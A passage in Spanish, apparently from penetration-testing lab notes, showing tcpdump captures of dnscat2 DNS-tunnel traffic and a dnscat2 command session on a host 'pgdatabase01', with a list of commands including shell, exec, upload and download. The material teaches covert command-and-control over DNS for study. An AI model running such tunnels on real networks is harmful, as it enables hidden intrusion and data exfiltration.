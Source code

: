 ```
07:22:19.783146 IP 192.168.118.4.domain > 192.168.50.64.50186: 58205 1/0/0 TXT "2b4c0140b608687c966b10ffff0866c42a" (111)
07:22:20.438134 IP 192.168.50.64.65235 > 192.168.118.4.domain: 52335+ CNAME? b9740158e00bc5bfbe3eb81e16454173b8.feline.corp. (64)
07:22:20.438643 IP 192.168.118.4.domain > 192.168.50.64.65235: 52335 1/0/0 CNAME c0330158e07c85b2dfc880ffff57240ba6.feline.corp. (124)
07:22:20.792283 IP 192.168.50.64.50938 > 192.168.118.4.domain: 958+ [1au] TXT? b2d20140b600440d37090f19c79d9f6918.feline.corp. (75)
...
```

De este tcpdump podemos sacar dos cosas, la primera es que esta herramienta particularmente hace mucho ruido y que la información que se envía en la conexión servidor-cliente está cifrada por lo que no tiene mucho interés esnifar la conversación entre ambos puntos.

Ahora, veámos como utilizar esta conexión en nuestro beneficio. 

Primero, utilizamos el comando *window -i 1* para crear una sesión de comandos y seguidamente utilizamos '?' para listar comandos disponibles. 

```
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* qui
* se
* shell
* shutdown
* suspend
* tunnels
* unse
* upload
* window
* windows
command (pgdatabase01) 1>
```
